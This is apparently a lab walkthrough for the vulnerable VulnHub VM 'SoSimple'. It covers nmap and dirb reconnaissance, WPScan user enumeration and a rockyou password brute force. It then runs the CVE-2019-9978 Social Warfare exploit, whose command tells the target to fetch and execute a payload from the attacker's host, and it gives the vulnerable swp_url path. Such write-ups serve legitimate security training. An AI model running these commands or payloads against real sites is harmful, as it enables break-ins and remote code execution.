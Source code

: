 Download the SoSimple VM from: https://www.vulnhub.com/entry/so-simple-1,515/

Running Nmap: nmap -p- -sV -sC 192.168.101.58

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Running dirb: dirb http://192.168.101.58

Running wpscan: wpscan --url http://192.168.101.58/wordpress/ --api-token [yourapitokenhere] --enumerate p,u
You'll need to register to https://wpscan.com/api to get your api-token.

The wpscan found user admin by Author Pattern.
Also found few Critical Vulnerabilities. Now Let's try bruteforcing the password.

sudo wpscan --url http://192.168.101.58/wordpress/ -U admin,max -P /usr/share/wordlists/rockyou.txt                         

Found password for max and logged into the admin panel. Nothing much here.
Check the exploits for outdated plugin: searchsploit social warfare
Found an exploit for the plugin with RCE
use the exploit (cve-2019-9978.py) with command: python2 cve-2019-9978.py --target http://192.168.101.58/wordpress/ --payload-uri http://192.168.211.128:8000/payload.txt
Exploit GithubLink: https://github.com/hash3liZer/CVE-2019-9978

if the exploit doesnt work then open the exploit and copy the vuln path: http://192.168.101.58/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s
